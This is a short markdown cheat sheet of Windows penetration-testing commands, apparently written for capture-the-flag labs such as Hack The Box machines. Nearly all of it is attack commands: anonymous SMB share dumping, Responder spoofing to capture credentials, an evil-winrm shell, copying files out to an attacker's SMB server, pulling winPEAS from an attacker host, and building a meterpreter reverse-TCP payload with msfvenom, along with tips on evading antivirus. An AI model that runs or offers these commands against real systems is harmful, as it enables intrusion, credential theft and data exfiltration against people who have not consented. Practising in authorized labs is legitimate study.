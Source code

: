 # Windows CheatSheet

## General

look for hostname in nmap results

smb is on ports 139 and 445, nmap doesnt really show that

```bash
smbclient -L $IP 
#lists all shares on smb

smbclient -N //$IP/sharename 
#connects to share as anon

smb: \> tar c all.tar 
#archives entire share and dumps on system

```

```bat
type <file>
::windows equivilent of cat

```

## Enumeration

```bash
sudo responder -wA -I tun0 -v #Spoofs every server imaginable to get info on connection attempts

```

## Shell

WinRM is usually on port 5985, look for Microsoft HTTPAPI httpd 2.0 service

```bash
evil-winrn -i $IP -u $USER 

```

## File Movement

(windows to kali)
```bash
#Start impacket-smbserver on kali box
sudo impacket-smbserver my_share -smb2support .

```

```bat
::Run command on windows box
copy <filename> \\10.10.14.8\my_share\<filename>
```

(kali to windows)
```bat
Invoke-WebRequest -OutFile winpeas.bat -Uri 10.10.14.7:8000/winPEAS.bat
```

## PrivEsc

```bat
.\winPEASany.exe
::winpeas finds a whole lot of interesting things

.\Sherlock.ps1
::sherlock is old, but finds common CVEs
```
## Meterpreter

Staged means normal rev shell. OS/meterpreter/reverse_tcp is staged. It's much smaller, but much more fingerprinted and hard to bypass AV

Unstaged means special meterpreter shell. OS/meterpreter_reverse_tcp is unstaged. Pretty big (150+ KB) but can be obviscated much better

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f <format> -o outfile.exe
#payload creation made easy :)

```

For privesc, search exploit/windows/local

## Web

https://github.com/samratashok/nishang - powershell goodies


## Box Specific:

Tomcat default - Jerry Box
SMBv1 - Blue Box
